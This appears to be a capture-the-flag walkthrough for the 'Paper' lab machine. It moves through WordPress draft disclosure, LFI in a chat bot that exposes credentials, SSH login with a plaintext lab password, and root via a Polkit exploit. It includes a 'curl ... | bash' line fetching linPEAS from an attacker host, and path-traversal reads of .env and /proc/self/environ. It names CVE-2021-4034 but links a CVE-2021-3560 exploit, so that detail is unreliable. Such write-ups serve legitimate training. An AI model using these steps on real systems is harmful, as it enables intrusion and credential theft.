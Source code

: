 ## Paper

Difficulty: Easy

### User Flag

```
rustscan -a paper.htb --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://user-images.githubusercontent.com/58514930/219438575-1b4bc0e3-b4c5-4acd-99f8-36f22c367850.png)

<br>

There is nothing interesting in the web page. Looking through the requests, we find a domain to access: office.paper

![x-backend-server](https://user-images.githubusercontent.com/58514930/219438608-597810db-2d99-4635-ab41-3c4f8cd45d08.png)

![office paper](https://user-images.githubusercontent.com/58514930/219439038-08514625-444a-4348-95dc-4a49fd8584aa.png)

<br>

The website seems to be constructed in WordPress, so we run WPScan to look for vulnerabilities.

```
wpscan --url http://office.paper -e vp --api-token <TOKEN>
```

The result show to us that there is a vulnerability that permit any user to see private and draft posts.

![wpscan result](https://user-images.githubusercontent.com/58514930/219439291-4f713798-22df-44d5-8d7e-644c7a85f84d.png)

<br>

There is one post in the site that give us a hint that we may find something in the drafts.

![draft-hint](https://user-images.githubusercontent.com/58514930/219439471-28afbe37-0cee-4dd9-a3d3-001fe8b12d30.png)

<br>

To exploit the vulnerability, we access http://office.paper/?static=1.  

Here we discover a secret URL to register to a chat system.  

> Remember to add office.paper and chat.office.paper to /etc/hosts.

![registerURL](https://user-images.githubusercontent.com/58514930/219440263-0ab0d039-72e1-4db1-85a6-f1755626af6b.png)

![registering](https://user-images.githubusercontent.com/58514930/219440853-108f460a-32d5-4204-a8fe-07e2f368c1fb.png)

<br>

Inside this chat system, there is a bot called recyclops that retrieve us some files. This bot is vulnerable to LFI.  

Searching inside the files we find credentials in ../hubot/.env.  

> You could also enumerate the ../../../../../proc/self/environ file to get this information.  

![recyclopsLFI](https://user-images.githubusercontent.com/58514930/219441141-800b7c84-d461-4741-9566-e0b042f58f78.png)

<br>

This credentials doesn't work in SSH, so we go to the chat and enumerate some users.

![userEnumeration](https://user-images.githubusercontent.com/58514930/219441686-9ac558be-0d4e-4fe9-9950-7c6dff4e98f6.png)

<br>

The password "Queenofblad3s!23" works in SSH with the user dwight.

### Root Flag

Doing some enumeration with linPeas, we see that the machines is vulnerable to CVE-2021-4034.

> To directly execute linPeas you can use: curl http://10.10.14.5:8000/linpeas.sh | bash

![linPeas](https://user-images.githubusercontent.com/58514930/219442256-bccb3121-b7aa-47de-9176-1b5d32b6e78e.png)

<br>

Just execute [this exploit](https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py) and get the root.

![exploitRoot](https://user-images.githubusercontent.com/58514930/219442238-c0cbe72e-b005-48f2-8ac9-a2bfa3b6e7ff.png)
